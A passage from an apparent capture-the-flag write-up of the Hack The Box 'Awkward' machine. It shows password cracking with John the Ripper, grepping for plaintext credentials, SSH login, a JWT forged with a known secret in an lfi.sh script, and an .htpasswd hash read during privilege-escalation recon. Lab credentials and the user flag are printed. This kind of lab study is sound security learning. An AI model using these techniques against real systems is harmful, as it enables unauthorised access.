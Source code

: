 I let john the ripper run using `rockyou.txt` as my wordlist, and I tried some wordlists from [SecLists](https://github.com/danielmiessler/SecLists), but wasn't able to brute force the hash.

If we grep all files for the username `bean` (ignoring our lfi.sh script):

```bash
$grep -irn bean
lfi.sh:8:JWT=$(jwt encode --secret 123beany123 "$JSON_PAYLOAD")
.config/xpad/content-DS1ZS1:9:bean.hill
.config/xpad/content-DS1ZS1:10:014mrbeanrules!#P

```

This looks like a set of credentials in an xpad note.. maybe?  Let's try it as an SSH password:

```bash
 $ssh bean@hat-valley.htb
bean@hat-valley.htb's password: 
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Sat Feb  4 08:13:10 2023 from 10.10.14.77
bean@awkward:~$ 
 bean@awkward:~$ cat user.txt 
5662762c28a1c7b3cc16035d5bfd82ee

```

 Yep! So we have user / password combination bean / 014mrbeanrules!#P , and we get the user flag!

## Privilege Escalation

Looking at the output of `ps auxfe`,  the main thing that stands out is nginx running as root, with two worker processes running as www-data:

```bash
root        1370  0.0  0.0  55196  1764 ?        Ss   Feb03   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
www-data    1372  0.1  0.1  56468  7120 ?        S    Feb03   2:04  \_ nginx: worker process
www-data    1373  0.0  0.1  56344  6720 ?        S    Feb03   1:05  \_ nginx: worker process

```

As user bean, I cannot run anything as sudo.  I found the following user/hash for HTTP basic auth in nginx.  Initial attempts to brute force failed here:

```bash
bean@awkward:/etc/nginx/conf.d$ cat .htpasswd 
admin:$apr1$lfvrwhqi$hd49MbBX3WNluMezyjWls1
```
